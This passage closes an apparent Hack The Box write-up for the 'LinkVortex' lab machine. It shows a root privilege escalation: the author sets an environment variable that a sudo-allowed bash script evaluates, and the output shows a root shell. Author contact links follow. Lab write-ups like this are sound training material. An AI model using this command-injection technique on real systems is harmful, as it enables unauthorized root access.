I was completely wrong about the ```CHECK_CONTENT``` variable. That is actually an environment variable that we can set when we run the script. Additionally, I remembered that in Bash, if statements are evaluated by bash executing whatever is in the block. Since we can control what we pass into the ```CHECK_CONTENTS``` variable, we can just pass in ```bash```, and have the if statement execute it for us.

```
bob@linkvortex:~$ CHECK_CONTENT=bash sudo /usr/bin/bash /opt/ghost/clean_symlink.sh /home/bob/hi.png
Link found [ /home/bob/hi.png ] , moving it to quarantine
root@linkvortex:/home/bob# whoami
root
```

We can get the root flag from here.

Nice pwn!

## Contact

Email: <johnyang4406@gmail.com>, <john_s_yang@brown.edu>

LinkedIn: <https://www.linkedin.com/in/john-yang-747726292/>

HackTheBox: <https://profile.hackthebox.com/profile/019c423f-9b9b-708f-8b31-55983b89dddd?utm_medium=copy_url/>
